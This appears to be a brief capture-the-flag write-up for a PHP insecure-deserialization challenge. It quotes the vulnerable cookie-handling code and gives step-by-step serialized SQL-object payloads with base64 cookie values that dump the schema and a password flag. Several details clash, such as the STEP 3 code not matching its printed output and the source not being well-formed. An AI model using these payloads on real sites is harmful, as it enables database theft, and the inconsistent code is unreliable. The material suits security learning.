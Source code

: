```
$sql->query = 'SELECT username FROM users WHERE id=';  //query


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));   //deserialization vuln
else  $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {      //class
    }
    
```

STEP 1: <?php
class SQL {
    public $query = 'SELECT sql as username FROM sqlite_master';
   }

$a = new SQL();
echo serialize($a);
echo base64_encode(serialize($a));
?>

=> O:3:"SQL":1:{s:5:"query";s:41:"SELECT sql as username FROM sqlite_master";}
=> TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6NDE6IlNFTEVDVCBzcWwgYXMgdXNlcm5hbWUgRlJPTSBzcWxpdGVfbWFzdGVyIjt9

STEP 2: Assign Cookie value= TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6NDE6IlNFTEVDVCBzcWwgYXMgdXNlcm5hbWUgRlJPTSBzcWxpdGVfbWFzdGVyIjt9
OUTPUT: Username: CREATE TABLE users(id int, username varchar, password varchar)


STEP 3: <?php
class SQL {
    public $query = 'SELECT password as username FROM sqlite_master';
   }

$a = new SQL();
echo serialize($a);
echo base64_encode(serialize($a));
?>

=> O:3:"SQL":1:{s:5:"query";s:38:"SELECT password as username FROM users";}
=> TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIjt9


STEP 2: Assign Cookie value= TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIjt9
OUTPUT: Username: WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
